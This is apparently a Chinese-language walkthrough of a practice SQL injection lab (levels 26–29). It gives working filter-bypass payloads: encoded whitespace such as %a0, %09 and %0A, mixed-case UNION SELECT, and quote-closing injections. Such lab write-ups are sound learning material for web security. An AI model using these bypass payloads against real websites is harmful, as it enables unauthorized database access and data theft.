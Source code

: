 ![image](https://user-images.githubusercontent.com/76896357/115100036-90d38e00-9f6c-11eb-86ae-6b2d06be3ae6.png)

好家伙，用了正则，过滤了这么多 or，and ，#，--，/*，/都没了，这里为什么要过滤/*，，，这家伙是多行注释，常用/**/来代替空格


%a0    空格

%09    tab

还有其他方式
```
?id=1'%09||'1
```
![image](https://user-images.githubusercontent.com/76896357/115100349-9f22a980-9f6e-11eb-90a8-276c65e946c6.png)

* 查看闭合方式



由于输入什么都不显示,延时都不行，此案过。。。


## 27. 过滤union和select的注入

* 查看闭合方式
```
?id=1'
```
![image](https://user-images.githubusercontent.com/76896357/115102138-b025e780-9f7b-11eb-84e4-cf9d26b54d23.png)

单引号闭合

* 查看是否有回显(不能用union)

代码审计，看下他过滤掉了哪些

![image](https://user-images.githubusercontent.com/76896357/115102277-76a1ac00-9f7c-11eb-9f52-579801e6b701.png)

又是一堆正则。。。。。。
* 查看回显
```
?id=0'%0AUNion%0ASeleCt%0A1,2,3%0Aor%0A'1'= '//最好别用hackbar，会出现问题的
```
![image](https://user-images.githubusercontent.com/76896357/115107358-0a837000-9f9d-11eb-8870-4b6940bb1dfa.png)

剩下的就类似这样直接查。。。

## 26,27,28..都是过滤union，select可i用大小写绕过，空格用%a0补充


## 29. waf保护

* 看看有没有回显

```
?id=-1' union select 1,2,3 --+
```
